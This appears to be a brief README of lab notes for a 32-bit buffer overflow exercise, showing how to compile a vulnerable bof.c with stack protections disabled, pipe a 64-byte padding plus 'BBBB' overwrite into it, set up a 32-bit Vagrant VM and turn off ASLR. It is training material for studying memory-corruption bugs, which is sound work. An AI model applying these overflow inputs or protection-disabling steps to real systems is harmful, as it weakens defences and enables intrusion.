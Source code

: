 # EXAMPLES

bof 32bit compilation/exec, for CCIT:  
```
gcc -o bof -z execstack -fno-stack-protector -m32 bof.c :   
-no-pie
(python -c 'print "A"*64,"BBBB","\n"'; cat -) | ./bof :  
(perl -e 'print "A"x64,"BBBB","\n"'; cat -) | ./bof :   
mkdir 32bit
cd 32bit
vagrant init ubuntu/trusty32
vagrant up
vagrant ssh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```